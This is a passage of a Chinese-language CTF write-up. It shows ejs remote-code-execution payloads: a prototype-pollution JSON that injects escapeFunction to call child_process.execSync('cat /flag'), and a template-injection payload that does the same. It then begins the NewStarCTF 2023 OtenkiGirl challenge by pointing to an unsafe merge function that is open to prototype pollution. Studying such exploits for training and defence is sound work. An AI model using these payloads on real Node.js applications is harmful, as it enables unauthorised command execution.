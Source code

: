 也可以直接利用ejs.render本身存在的漏洞实现RCE 

```
{"constructor": {"prototype": {"role":"admin", "data":{"username":"admin"}, "client":true,"escapeFunction":"1; return global.process.mainModule.constructor._load('child_process').execSync('cat /flag');"}},"username":"admin","password":"admin"}
```

接着登录上去，是ejs的模板注入

payload

```
<%- global.process.mainModule.require('child_process').execSync('cat /flag') %>
```

## NewStarCTF 2023 WEEK3 OtenkiGirl

这题把所有源码直接给了

还给了个提示

```
『「routes」フォルダーだけを見てください。SQLインジェクションはありません。』と御坂御坂は期待に満ちた気持ちで言った。
“只看”routes“文件夹。没有SQL注入。“御坂御坂带着充满期待的心情说道。
```

那我们就只看`routes`文件夹

`submit.js`

首先发现了`merge`函数,猜测可能是原型链污染

```javascript
const merge = (dst, src) => {
    if (typeof dst !== "object" || typeof src !== "object") return dst;
    for (let key in src) {
        if (key in dst && key in src) {
            dst[key] = merge(dst[key], src[key]);
        } else {
            dst[key] = src[key];
        }
    }
    return dst;
}
```

然后就是找，谁调用了`merge`函数

![image-20240327205933012](https://dabai1-1316520326.cos.ap-shanghai.myqcloud.com/img/image-20240327205933012.png)

```javascript
const result = await insert2db(merge(DEFAULT, data));
ctx.body = {
            status: "success",
            data: result
        };
```
